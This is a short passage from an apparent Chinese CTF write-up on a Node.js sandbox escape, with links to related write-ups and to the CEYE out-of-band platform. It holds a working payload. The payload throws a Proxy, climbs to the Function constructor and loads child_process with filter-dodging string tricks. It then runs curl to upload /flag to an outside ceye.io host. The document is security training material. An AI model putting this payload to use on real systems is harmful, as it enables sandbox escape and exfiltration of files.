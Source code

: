 ![](./images/image-68.png)

进入沙盒逃逸

相关知识文章

- [全世界最简单的CTF - nnonkey k1n9的博客](http://49.232.222.195/index.php/archives/714/)

- [NKCTF2024-web-wp - Eddie\_Murphy - 博客园 (cnblogs.com)](https://www.cnblogs.com/EddieMurphy-blogs/p/18094228)

这里使用的是`curl -T`将目标文件外带

并且使用到了ceye平台

- [CEYE平台的使用 - 时光不改 - 博客园 (cnblogs.com)](https://www.cnblogs.com/zhaijiahui/p/9160913.html)

构造payload

```
throw new Proxy({}, {
get: function(){
const test =`Process`.toLocaleLowerCase();
const exp =`child_Process`.toLocaleLowerCase();
const cc = arguments.callee.caller;
const p = (cc.constructor.constructor(`return ${test}`))();
const obj = p.mainModule.require(`${exp}`);
const ex = Object.getOwnPropertyDescriptor(obj,
`${`${`exe`}cSync`}`);
return ex.value(`curl http://5pgv47.ceye.io/ -T /flag`).toString();
}
})
```
